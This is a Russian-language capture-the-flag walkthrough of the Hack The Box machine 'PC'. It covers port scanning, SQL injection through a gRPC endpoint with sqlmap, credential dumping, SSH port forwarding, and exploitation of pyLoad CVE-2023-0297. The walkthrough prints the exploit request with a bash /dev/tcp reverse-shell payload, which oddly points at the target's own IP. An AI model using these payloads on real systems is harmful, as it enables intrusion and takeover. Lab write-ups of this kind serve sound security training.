


# PC
:white_check_mark:  [**Grpc connection**](#Grpc_connection)

:white_check_mark:  [**PyLoad exploit(privesc)**](#PyLoad_exploit)

___

## Port scan
Сканируем ip командой:
```
nmap -Pn -p- 10.10.11.214
```

```
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

<a name="Grpc_connection"></a>

## Grpc connection

Поискав в интернете информацию о порте 50051, мы можем понять, что это сервис grpc.

Так же мы можем найти [графический интерфейс](https://github.com/fullstorydev/grpcui) для взаимодействия с grpc.

Интрефейс grpc:


Зарегистрируем нового пользователя:


Логинимся под данного пользователя. Внизу страницы мы можем заметить jwt токен пользователя. Скопируем его.



Перейдем снова к getInfo. Введем id и токен, который мы скопировали на странице пользователя.


Отправим запрос. Мы можем заметить сообщение от сервера.


Перехватим данный запрос.


Попробуем добавить кавычку в id и отправить запрос. Мы можем заметить, что это действие вызвало ошибку.


Сохраним данный запрос в текстовый документ. Заменим в данном документе кавычку на звездочку, для указания sqlmap, в какое место подставлять полезную нагрузку.


Далее мы будем использовать sqlmap, для получения данныйх пользователей из базы данных.

```
sqlmap -r req.txt --batch
```

Мы можем заметить, что результат работы sqlmap положителен.


Сдампим базу данных.

```
sqlmap -r req.txt --batch --dump
```



Мы смогли получить данные пользователя sau. Попробуем подключиться по ssh.


Закинем linpeas на машину и запустим скрипт. Мы можем заметить доступные порты.


Используем curl на порт 8000 для проверки. Мы можем заметить, что данный сервис активен и пытается редиректить нас на другую страницу.

```
curl http://127.0.0.1:8000
```


Пробросим данный порт на нашу машину:

```
ssh -L 9999:127.0.0.1:8000 sau@10.10.11.214
```


Проверим проброс порта:

```
ss -at
```


<a name="PyLoad_exploit"></a>

## PyLoad exploit(privesc)

Перейдем по данному адресу. Мы можем заметить страницу с сервисом pyLoad.


Немного поискав, мы можем найти недавний [эксплоит](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) к данному сервису.

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'
```

Запустим слушатель на атакуемой машине.

Перехватим запрос с сайта. Модифицируем его, опираясь на PoC, представленный выше.

```
POST /flash/addcrypted2 HTTP/1.1
Host: 127.0.0.1:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Origin: http://127.0.0.1:9999
Connection: close
Cookie: _grpcui_csrf_token=MBTxjKBhaGs3ry_nNU96h14UPR1CE3PjCDfpm6VufHk
Upgrade-Insecure-Requests: 1
Sec-Fetch-User: ?1

package=xxx&crypted=AAAA&jk=pyimport+os;os.system("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.11.214/6655+0>%261'");f=function%20f2(){};
```


Отправляем запрос и получаем обратную оболочку с правами root.

